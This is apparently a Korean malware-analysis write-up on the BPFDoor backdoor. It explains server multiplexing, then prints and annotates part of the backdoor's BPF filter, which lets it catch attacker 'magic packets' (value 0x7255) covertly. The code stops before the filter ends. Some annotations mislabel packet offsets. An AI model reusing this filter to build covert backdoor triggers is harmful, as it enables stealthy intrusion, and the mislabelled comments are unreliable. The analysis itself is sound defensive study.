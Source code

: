 > **Multiplexing (다중화)**
>
> :여러 개의 데이터 스트림이나 채널을 하나의 전송 매체를 통해 동시에 전송하는 기술
>
> 서버 유형에서의 multiplexing은, 서버가 여러 연결을 한 번에 처리하기 위해서는 Multi-thread, Multi-process, Multiplexing 방식이 존재한다. 여러 요청을 한번에 처리하는 방식이 여러 개의 process나 thread를 생성하는 것과는 달리, 단 하나의 서버 프로세스로 여러 클라이언트 소켓들의 요청을 처리한다.
>
> 하나만 존재하는 서버 소켓은 이런 작업을 가능하게 하기 위해 polling 또는 interrupt 방식을 사용하는데, polling 방식은 서버 프로세스가 fd(file descriptor)를 지속적으로 감시하며 해당 fd에 대한 I/O 요청 flag 값이 켜져 있으면 fd에 서버 소켓이 연결하여 read/write 작업을 진행한 뒤에 소켓과의 연결을 끊고, 다른 소켓들에 대한 작업을 처리하러 간다.
{: .prompt-warning }

<br>

<br>

## BPF 분석

- BPFDoor 프로그램의 핵심적인 부분이다. 리스닝 소켓을 열어 공격자와 통신하는 것이 아니라, BPF 필터가 적용된 소켓을 열어 공격자와 통신함으로써 커널 레벨에서 효율적이고 은밀하게 공격자의 매직 패킷을 받을 수 있다.

<br>

```c
struct sock_filter bpf_code[] = {
    /* 1) 초기 검사: 이더넷 타입 - IP 패킷 확인 */
    { 0x28, 0, 0, 0x0000000c },   // 1:  LDMH [12] (EtherType)
    { 0x15, 0, 27, 0x00000800 },  // 2:  JEQ #0x800, L2, L28 (IP)

    /* 2) IP 헤더 프로토콜 및 단편화 검사(UDP 패킷 경로) */
    { 0x30, 0, 0, 0x00000017 },   // 3:  LDAB [23] (IP protocol)
    { 0x15, 0, 5, 0x00000011 },   // 4:  JEQ #0x11, L4, L6 (UDP)
    { 0x28, 0, 0, 0x00000014 },   // 5:  LDDW [20] (IP src addr)
    { 0x45, 23, 0, 0x00001fff },  // 6:  AND #0x1fff (fragment offset, checks if not fragmented)
    { 0xb1, 0, 0, 0x0000000e },   // 7:  LDSH [14] (TCP/UDP Dport) (This is incorrect in original comment, it's actually IP Header Length + TCP/UDP Header Length)
    { 0x48, 0, 0, 0x00000016 },   // 8:  LDSH [22] (TCP/UDP Sport)

    /* 3) 매직 패킷 값 확인(UDP 포트/데이터) */
    { 0x15, 19, 20, 0x00007255 }, // 9:  JEQ #0x7255, L9, L28 (0x7255 is 29269, BPFDoor magic value)

    /* 4) IP 헤더 프로토콜 및 단편화 검사(ICMP 또는 다른 프로토콜 경로) */
    { 0x15, 0, 7, 0x00000001 },   // 10: JEQ #0x1, L10, L18 (check for IPPROTO_ICMP)
    { 0x28, 0, 0, 0x00000014 },   // 11: LDDW [20] (IP src addr)
    { 0x45, 17, 0, 0x00001fff },  // 12: AND #0x1fff (fragment offset, checks if not fragmented)
    { 0xb1, 0, 0, 0x0000000e },   // 13: LDSH [14]
    { 0x48, 0, 0, 0x00000016 },   // 14: LDSH [22]

    /* 5) 두 번째 매직 패킷 값 확인(ICMP 또는 다른 프로토콜 데이터) */
    { 0x15, 0, 14, 0x00007255 },  // 15: JEQ #0x7255, L15, L28 (BPFDoor magic value for ICMP)

    /* 6) TCP 프로토콜 확인 및 TCP 헤더 검사 */
    { 0x50, 0, 0, 0x0000000e },   // 16: LD_ABS (offset 14) - IP header length (incorrect comment in original code)
    { 0x15, 11, 12, 0x00000008 }, // 17: JEQ #0x8 (ICMP type 8, Echo Request), L17, L28
    { 0x15, 0, 11, 0x00000006 },  // 18: JEQ #0x6 (TCP), L18, L28
    { 0x28, 0, 0, 0x00000014 },   // 19: LDDW [20] (IP src addr)
    { 0x45, 9, 0, 0x00001fff },   // 20: AND #0x1fff (fragment offset, checks if not fragmented)
    { 0xb1, 0, 0, 0x0000000e },   // 21: LDSH [14]
    { 0x50, 0, 0, 0x0000001a },   // 22: LD_ABS (offset 26) - TCP Flags
    { 0x54, 0, 0, 0x000000f0 },   // 23: AND #0xf0 (extracting TCP offset)
    { 0x74, 0, 0, 0x00000002 },   // 24: LSH #2 (multiply by 4)

    /* 7) 최종 매직 패킷 값 확인 및 패킷 처리 */
```